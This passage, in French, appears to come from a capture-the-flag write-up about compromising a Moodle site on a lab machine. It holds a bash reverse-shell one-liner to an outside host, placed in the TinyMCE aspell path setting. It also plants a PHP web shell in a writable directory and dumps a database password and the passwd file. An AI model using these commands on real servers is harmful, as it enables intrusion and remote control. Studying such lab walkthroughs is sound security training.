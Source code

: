 Il faut ensuite trouver une page où il y a un éditeur de texte riche utilisant _TinyMCE_, par exemple via `Site administration > Courses > Add/edit courses`.

J'ai eu des difficultés à faire déclencher mon payload que j'avais passé comme valeur du path `aspell` :

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.56.1/80 0>&1'
```

En fait il fallait passer le chemin complet des binaires sans quoi ce n'est pas exécuté.

## Clap de fin

Mon premier réflexe a été de déposer un shell pour garder cet accès bien mérité :

```console
www-data@ubuntu:/var/www/html$ find . -type d -writable -maxdepth 1
find . -type d -writable -maxdepth 1
./dir007key
./006-final
./gnocertdir
./sev-home
www-data@ubuntu:/var/www/html$ echo '<?php system($_GET["cmd"]); ?>' > ./gnocertdir/shell.php
echo '<?php system($_GET["cmd"]); ?>' > ./gnocertdir/shell.php
```

Rien de bien utile dans la configuration du `Moodle` :

```php
www-data@ubuntu:/var/www/html/gnocertdir$ cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'pgsql';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'trevelyan006x';
```

Tous les utilisateurs sont en `nologin` :

```
boris:x:1000:1000:boris,,,:/home/boris:/usr/sbin/nologin
dovecot:x:103:112:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:104:113:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:105:114::/var/spool/postfix:/bin/false
postgres:x:106:116:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
natalya:x:1002:1002:,,,:/home/natalya:/usr/sbin/nologin
doak:x:1001:1001:,,,:/home/doak:/usr/sbin/nologin
```

